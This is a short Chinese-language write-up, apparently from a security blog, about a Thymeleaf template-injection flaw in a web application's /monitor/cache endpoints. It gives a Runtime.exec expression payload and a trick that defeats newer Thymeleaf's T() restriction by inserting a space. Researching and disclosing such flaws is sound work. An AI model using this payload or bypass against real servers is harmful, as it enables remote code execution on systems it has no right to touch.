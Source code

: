 其中可注入的接口包括  
```
/localrefresh/task
/getValue
/getKeys
/getNames
```  
  
接口满足条件。  
  
PostMapping  
注解控制，会在view中进行解析（或者  
GetMapping  
）。  
  
return  
 值可控（或者  
url  
可控）  
  
可以通过在  
http://localhost/monitor/cache  
视图下点击按钮抓包，也可直接构包（该接口需要有效cookie）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGnZ6qwS0nfLTjxVKJa2cvML4Lo3uALqgcgPc0PQ3SVRVSibcWt2lgzJA/640?wx_fmt=png&from=appmsg "")  
- 构建  
fragment  
参数payload，由于系统未对  
fragment  
参数做任何处理就进行返回，因此我们可以直接插入  
thymeleaf表达式  
，使用’  
${}  
注入执行表达式，  
T()  
访问java类和静态访问。因此构建payload：  
  
- **${T(java.lang.Runtime).getRuntime().exec(“calc.exe”)}**  
  
- 由于thymeleaf高版本对T()进行了一些限制，不过可通过在  
T  
和  
(  
增加空格的办法进行绕过。  
  
- **${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}**  
 增加空格接口/monitor/cache/getName  
  
- 构包，接口   
**/monitor/cache/getName**  
 (需要有效的身份Cookie)  
  
- 注入  
cacheName  
不能为空  
  